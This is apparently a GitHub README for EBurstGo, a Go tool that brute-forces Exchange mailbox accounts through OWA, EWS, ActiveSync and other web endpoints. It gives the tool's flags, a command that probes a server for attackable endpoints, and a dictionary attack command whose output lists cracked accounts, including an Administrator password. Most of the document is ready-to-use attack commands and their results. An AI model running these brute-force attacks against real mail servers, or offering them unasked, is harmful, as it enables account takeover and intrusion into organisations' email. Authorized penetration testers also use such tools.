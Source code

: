 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -pass string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	用户名字典
  -verbose
    	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user users.txt -pass pass.txt -mode ews
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 4.40084275s
```

已知 bug:
- 当协程数量过大时, 部分利用 NTLM 进行身份认证的接口可能出现漏报
- 在使用 ActiveSync 接口进行爆破时, 如果凭据正确, 服务器会在大约 20s 之后响应, 期间会阻塞当前协程 (不过好像是 ActiveSync 本身的特性)
- `/rpc` 和 `/oab` 接口存在问题, 待解决
- `/powershell` 接口 (Kerberos 认证) 待支持